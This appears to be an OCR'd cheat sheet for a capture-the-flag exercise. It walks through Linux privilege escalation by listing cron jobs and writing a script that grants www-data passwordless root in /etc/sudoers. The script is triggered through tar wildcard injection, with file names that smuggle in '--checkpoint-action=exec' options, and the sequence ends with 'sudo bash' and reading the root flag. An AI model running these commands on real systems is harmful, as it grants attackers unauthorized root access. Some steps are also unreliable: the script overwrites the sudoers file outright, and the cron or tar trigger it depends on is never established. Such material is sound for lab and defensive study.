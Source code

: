 # Example Privilege Escalation via Cron Jobs
# Identify cron jobs owned by root or a privileged user and look for potential vulnerabilities (e.g., world-writable files, wrong permissions).
crontab -l # List cron jobs for the current user
cat /etc/crontab # View system-wide cron jobs

# Privilege Escalation Example (Sudoers Exploit)
# The following sequence demonstrates privilege escalation by modifying the sudoers file to grant the 'www-data' user root privileges.
# This can be used to escalate from a web user (e.g., www-data) to root on the target system.

# Step 1: Navigate to the web directory
cd /var/www/html

# Step 2: Create a script that modifies the sudoers file
echo 'echo "www-data ALL=(root) NOPASSWD: ALL" > /etc/sudoers' > priv.sh

# Step 3: Attempt to execute the script (this step attempts to misuse a checkpoint to trigger execution of the script)
echo "/var/www/html" > "--checkpoint-action=exec=sh priv.sh"
echo "/var/www/html" > --checkpoint=1

# Step 4: Check sudo permissions to see if we now have escalated privileges
sudo -l

# Step 5: If the above command shows that we can run commands as root without a password, escalate privileges
sudo bash

# Step 6: Read the root flag (assuming this is a capture-the-flag type challenge)
cat /root/root.txt
